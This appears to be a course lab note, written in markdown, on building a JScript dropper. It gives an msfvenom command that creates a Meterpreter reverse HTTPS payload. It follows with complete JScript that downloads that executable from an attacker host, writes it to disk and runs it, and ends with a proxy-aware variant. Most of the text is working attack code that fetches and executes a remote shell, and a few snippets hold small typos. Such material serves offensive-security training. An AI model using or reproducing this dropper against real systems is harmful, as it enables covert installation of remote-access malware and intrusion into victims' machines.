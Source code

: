 ## JScript dropper
We'll expand our usage of Jscript to create a dropper that downloads a Meterpreter executable from our Kali Linux web server and executes it.

We will first create a simple 64-bit meterpreter reverse https executable and save it to kali web root with the following command:
```sh
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 -f exe -o myshell.exe
```

We will now start with a simple HTTP GET request from Jscript.
We can use MSXML2.XMLHTTP object based on Microsoft's XML Core Services and it's associated XML parser.

We use CreateObject method of the Windows Script to instantiate the MSXML2.XMLHTTP object, and use open and send methods to perform an HTTP GET request.

The _Open_ method will be taking 3 arguments, the request method, the url and a boolean that indicates if the request should synchronous.

The code will be as follows
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = Wscript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

We will now proceed with 2 steps:
1. Check if the HTTP GET request was successful.
				- We use the status property of the MSXML2.XMLHTTP object
				- We compare it to the status code of the request
2. We instantiate a stream object and copy the response into it.
				- We use the _stream_ object from the ADODB.strean through the _CreateObject_ method.
				- We invoke _Open_ on the stream object and begin editing the properties of the stream
				- We first set the type property to '1' to indicate we're using binary content.
				- We then call the _Write_ method to write the contents of the response to the stream variable with the ResponseBody method of MSXML2.XMLHTTP
				- Finally, we reset the _Position_ to "0" to instruct the Stream to point to the beggining of it's content.

```JavaScript
if (Object.Status == 200)
{
var stream = Wscript.Object('ADODB.stream');

stream.Open();
stream.Type(1);
stream.Write(Object.ResponseBody);
stream.Position = 0;
```

We finally create a file using the SaveToFile method of the ADODB.stream object.
The method takes 2 arguments:
1. The filename
		- we set it to MyShell.exe
2. Save options
		- We set this to the numeric value of "2" to indicate a file overwrite.

We also close the stream object:
```JavaScript
stream.SaveToFile("myshell.exe", 2);
stream.Close();
```

To put it all together we use WSH shell to run our executable:
```JavaScript
var r = new ActiveXObject("Wscript.Shell").Run("myshell.exe");
```


Our Final code looks like so:
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{s
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("myshell.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("myshell.exe");
```

We get a shell back:
![jscript-drop-shell](../../../Screenshots/jscript-drop-shell.png)

## Exercise
We need to make the communication proxy-aware, we can do this with the [_setProxy_](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms760236%28v%3dvs.85%29) method of the oSrvXMLHTTPRequest object.

We start by instantiating another object of MSXML 6.0 as 3.0 does not support proxy, we then use the setProxy method which takes 3 arguments:
1. [proxySetting](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms760236%28v%3dvs.85%29#remarks)
2. The proxy server and the port we'll be using
3. Any host that can go through the proxy

Our edited code looks like so:
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
var Proxy = WScript.CreateObject('MSXML2.ServerXMLHTTP.6.0');

Proxy.setProxy(2, "http://192.168.150.12:3128/");
Object.Open('GET', url, false);
Object.Send();

............
- ```


